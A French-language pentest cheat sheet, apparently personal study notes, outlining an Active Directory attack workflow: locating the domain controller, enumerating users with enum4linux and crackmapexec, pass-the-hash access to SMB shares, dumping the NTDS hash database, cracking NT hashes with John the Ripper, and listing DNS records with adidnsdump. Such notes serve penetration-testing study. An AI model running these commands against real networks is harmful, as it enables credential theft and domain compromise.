 ```toc

```
cf le cours sur l'AD : [[Cours/]]

# 1. Trouver le DC
La première étape consiste à trouver le contrôleur de domaine. Pour ça on peut :
- Utiliser *nslookup* car le DC sert souvent de DNS
- Utiliser *nmap* et regarder les services exposés

# 2. Enumération anonyme
```bash
# Enum all domain users, groups, ...
enum4linux -a -u "%" <DC_IP>

crackmapexec ldap
```


# 3. Enumération non-anonyme
```bash
enum4linux -a -u "user" -p "password" <DC_IP>
```


# 4. Accès à une machine
Dump des hash de mots de passe locaux.
Puis attaque Pass The Hash : `crackmapexec -H`


# 5. Pass The Hash
```bash
# List SMB shares
crakmapexec smb <ip_addr> --shares -u <user> -H <hash>

# Access a SMB repository
smbclient -U <domain>/<user> --pw-nt-hash --password=<hash> //<ip_addr>/<dir>
```

Dump base NTDS (tous les hash de tous les utilisateurs)
```bash
crakmapexec smb <ip_addr> -u <user> -H <hash> --ntds

# Format to keep only NT hash (4th elt)
john --format=NT <file>
john --format=NT <file> --show 
john --restore 
```
cf [[John The Ripper]].


# Autres
## Lister les entrées DNS
L'AD répertorie des entrées DNS et par défaut tous les utilisateurs peuvent les lister. Certaines entrées sont cachées, i.e. on accède seulement au nom DNS et pas à l'IP et au type d'entrée (A, AAAA, ...) mais on peut récupère l'IP en faisant une requète DNS (c'est l'option -r).
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-dns-records
```bash
# Display DNS zones
adidnsdump -u <domain>\\<user> ldap://<DC_IP> --print-zones

# Enum DNS records
adidnsdump -u <domain>\\<user> ldap://<DC_IP> -r
cat records.csv

# Enum DNS records from a zone
adidnsdump -u <domain>\\<user> ldap://<DC_IP>.<DNS_zone> -r
cat records.csv
```
